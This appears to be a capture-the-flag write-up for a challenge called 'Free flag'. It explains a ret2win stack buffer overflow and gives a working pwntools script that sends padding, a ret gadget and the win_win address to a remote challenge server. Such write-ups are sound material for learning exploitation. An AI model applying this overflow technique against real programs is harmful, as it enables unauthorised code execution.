# Free flag

> Simple ret2win exploit.

It calls read on rbp-0x20, reading 0x38 bytes.

This is enough for 16 bytes after RBP.

We simply send 0x28 junk bytes + ret gadget + win\_win function address\(win\_win is a function executing cat flag.txt whilst the ret gadget is for stack alignment\)

For some reason I had to put an interactive session just when I connected to the server and hit control c so that the exploit continued in order for it to work...

```python
from pwn import *
e = ELF("./chall")
NUM_TO_RET = 0x20 + 8
padding = b'A' * NUM_TO_RET
retgadget = 0x00000000004005ae # ret
payload = padding + p64(retgadget) + p64(e.symbols['win_win'])
#p = e.process()
p = remote('europe.pwn.zh3r0.ml', 3456)
p.interactive()
p.sendline(payload)
p.interactive()
```

